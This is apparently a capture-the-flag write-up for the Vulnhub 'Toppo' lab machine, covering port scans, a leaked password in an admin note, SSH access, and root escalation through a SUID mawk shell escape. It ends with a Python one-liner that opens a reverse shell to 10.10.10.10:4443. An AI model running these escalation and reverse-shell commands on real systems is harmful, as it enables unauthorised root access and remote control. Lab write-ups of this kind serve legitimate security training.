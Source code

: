 Vulnhub - Toppo

# Vulnhub - Toppo
- Started the default enumeration. Found the TCP ports below:

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
52932/tcp open  unknown
```

- Also ran nmap UDP scan, which returned the ports

```
PORT    STATE         SERVICE VERSION
68/udp  open|filtered dhcpc
111/udp open          rpcbind 2-4 (RPC #100000)
MAC Address: 00:0C:29:AD:EF:56 (VMware)
```

  - Using nikto, some folders where enumerated, but the one that called attention was /admin

  - Inside /admin there was a file called notes.txt containing the text below

```
- - Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```

- Assuming that ted is the username, once wasn't able to find it through any other enumeration, tried to SSH to box, once that 22/tcp is open.

- As ssh connection worked, started enumerating using LinEnum.sh, where these were the interesting findings

  - User ted is allowed to run /usr/bin/awk as root

```
ted ALL=(ALL) NOPASSWD: /usr/bin/awk
```

  -  Root is allowed to ssh 
  - Noticed that system listen to other ports internally, not allowed externally
    - TCP 36808
    - UDP 34995
    - UDP 59288
    - UDP 68
    - UDP 611
    - UDP 57751
    - UDP 12712
  - SUID file /usr/bin/mawk found
  - SUID /usr/bin/python2.7 world writable
  - Besides user has permissions to sudo as root awk, sudo file doesn't exist, so this options is discharged

  - Checking the SUID file mawk, checked on gtfobins (https://gtfobins.github.io/gtfobins/mawk/) that there was a way to privesc directly
    - Executed /usr/bin/mawk 'BEGIN {system("/bin/sh")}' which worked.
  - Getting the content of /root/flag.txt file


```bash
# cat flag.txt
	_________                                  
	|  _   _  |                                 
	|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
	    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
	   _| |_ | \__. | | \__/ | | \__/ || \__. | 
	  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
	                 [__|     [__|            

Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```

- Exploring other privesc possibilities

- Noticed that the same would work for awk, even without sudo

- As /usr/bin/python2.7 has SUID set as root, it is also possible to get a reverse shell elevated this was.

```
/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
